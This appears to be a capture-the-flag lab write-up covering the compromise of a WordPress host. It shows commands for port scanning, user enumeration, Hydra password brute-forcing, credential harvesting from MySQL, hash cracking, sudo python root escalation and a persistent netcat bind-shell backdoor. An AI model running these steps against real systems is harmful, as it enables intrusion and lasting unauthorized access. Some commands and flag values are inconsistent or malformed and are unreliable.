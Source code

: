 # Red Team: Summary of Operations

## Table of Contents
- Network Topology
- Exposed Services
- Critical Vulnerabilities
- Exploitation
  - Obtain Flags 1-4
  - Establish a back door

### Network Topology
![Network Topology](/Images/Final_project_top.JPG)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

Stealth Scan
```bash
$ nmap -sS 192.168.1.110
```
![Nmap Scan](/Images/NmapScan.png)

Enable OS detection, version detection, script scanning, and traceroute
```bash
$ nmap -A  192.168.1.110
```
![Nmap Scan2](/Images/NmapScan2.png)
![Nmap Scan3](/Images/NmapScan3.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22	SSH
  - Port 80	http
  - Port 111	rpcbind
  - Port 139	netbios-ssn
  - Port 445	microsoft-ds

The following vulnerabilities were identified on target 1:
- Target 1
  - CWE-200: Exposure of Sensitive Information to an Unauthorized Actor 
    - The product exposes sensitive information to an actor that is not explicitly authorized to have access to that information.
    - Allowed for port scan and identification of vulnerable ports.
  - CWE-672: Operation on a Resource after Expiration or Release
    - The software uses, accesses, or otherwise operates on a resource after that resource has been expired, released, or revoked.
    - WordPress version 4.8.7 was vulnerable to user enumeration among other vulnerabilities, and allowed for discovery of users of target 1.
  - CWE-521: Weak Password Requirements 
    - The product does not require a strong passwords, which makes it easier for attackers to compromise user accounts.
    - Allows a brute force attack to crack or guess the weak password of an user: Michael, and use the stole credentials to infiltrate the server.
  - CWE-307: Improper Restriction of Excessive Authentication Attempts 
    - The software does not implement sufficient measures to prevent multiple failed authentication attempts within in a short time frame, making it more susceptible to brute force attacks.
    - Allows a brute force attack to occur.
  - CWE-256: Unprotected Storage of Credentials
    - Storing a password in plaintext may result in a system compromise.
    - MySQL password was stored in plain text, and used to access MySQL database.
  - CWE-522: Insufficiently Protected Credentials
    - The product transmits or stores authentication credentials, but it uses an insecure method that is susceptible to unauthorized interception and/or retrieval.
    - MySQL contained user passwords hashes that was cracked by John.
  - CWE-863: Incorrect Authorization Reverse shell vulnerability 
    - The software does not correctly perform an authorization check, which  allows attackers to bypass intended access restrictions.
    - Steven, with permission of execute python exe, was used to escalate privileges to root.

Searchsploit to identify possible exploits
```bash
$ searchsploit SSH
```
![SSHVuln](/Images/SSHVuln.png)

```bash
$ searchsploit apache
```
![apacheVuln](/Images/apacheVuln.png)

```bash
$ searchsploit Samba
```
![SambaVuln](/Images/SambaVuln.png)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploit Used**
      - WPScan to enumerate users
        - `wpscan --url 192.168.1.110/wordpress/ --enumerate u`
        - ![WPScan](/Images/WPScan.png)
      - Use Hydra to crack michael's password or guess password
        - `hydra -l michael -P /usr/shar/wordlists/rockyou.txt 192.168.1.110 ssh`
        - ![Hydra](/Images/Hydra.PNG)
      - Use stolen credentials to SSH into michael's account
        - `ssh michael@192.168.1.110`
        - `Password: michael`
      - Search for Flag1
        - `grep -rnw ./ -e 'flag1' 2>/dev/null`
        - ![flag1](/Images/Flag1.PNG)

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Search for Flag2 in /var/www
      - `cd /var/www`
      - `grep -rnw ./ -e 'flag2' 2>/dev/null`
      - ![flag2](/Images/Flag2.PNG)

  - `flag3.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Find plain text password my MySQL database
        - `grep -rnw ./ -e 'password' 2>/dev/null`
        - `nano /var/www/html/wordpress/wp-config.php`
        - ![PlaintextPW](/Images/PlaintextPW.PNG)
      - Access and search MySQL database for usernames and passwords
        - `mysql -u root -p'R@3nSecurity'`
        - ![My1](/Images/Mysql1.png)
        - ![My2](/Images/Mysql2.png)
        - `select post_content from wp_posts`
        - ![My3](/Images/Mysql3.png)

  - `flag4.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Find user hashed password
        - ![hash](/Images/HashPW.png)
      - Crack user hashed password with Jack the Ripper
        - Create a .txt file with the usernames and hash passwords
          - ![hashtxt](/Images/HashPWtext.png)
        - `john hash_pw.txt`
          - ![Cracked](/Images/Cracked.PNG)
      - Log in as Steven with cracked password
        - ![SSHSteven](/Images/SSHSteven.png)
      - Escalate to root
        - ![UserPrivilages](/Images/UserPrivilages.png)
        - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
      - Search for flag4
        - `find . -name flag4.txt`
        - ![flag4](/Images/flag4.png)
  - Backdooring the Target
    - **Exploit Used**
      - Backdoor installed: (Bind Shell) Netcat
      - Set up a listener on Target 1 by:
        - Gain root access to Target 1 and executing:
          - `nc -lvnp 444 - /bin/bash`
          - Save a .sh file of the command in .bashrc
        - Connect it to Kali by: 
          - `nc 192.168.1.110 4444`
        - ![Backdoor](/Images/Backdoor.png)



